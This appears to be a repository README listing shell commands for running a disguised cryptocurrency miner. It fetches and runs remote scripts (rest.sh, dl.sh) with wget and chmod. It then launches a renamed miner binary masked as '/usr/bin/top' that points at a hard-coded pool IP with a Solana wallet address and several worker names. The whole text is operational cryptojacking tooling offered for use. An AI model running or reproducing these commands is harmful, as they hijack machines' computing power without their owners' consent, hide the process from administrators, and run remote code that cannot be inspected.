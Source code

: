 ##action one 

#deep

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh && cd /usr/bin

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xcodbs1 --pass x -k -t 3 --randomx-wrmsr -1 	--randomx-no-rdmsr --randomx-no-numa 


./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.coln3 --pass x -k -t 3 --randomx-wrmsr -1 	--randomx-no-rdmsr --randomx-no-numa 

#datalr

wget https://raw.githubusercontent.com/hudahadoh/hime/main/dl.sh && chmod +x dl.sh && ./dl.sh && cd /usr/bin

##rand optimized deep
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xgt1 --pass x -k -t 6 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages


./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xgt1 --pass x -k -t 3 --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 

./bhmax --OPENCL -o 158.69.251.105:4052 -u SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xgt1 -k --tls --rig-id GC-em

export PATH=/usr/local/cuda/bin${PATH:+:${PATH}}
export LD_LIBRARY_PATH=/usr/local/cuda/lib64${LD_LIBRARY_PATH:+:${LD_LIBRARY_PATH}}


##rand optimized datalr
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhdl --pass x -k -t 2 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages


###rand optimized colb

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhif --pass x -k -t 90 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax

### udahags

./bhmax --url 0.0.0.0:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xit --pass x -k -t 3 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --no-huge-pages
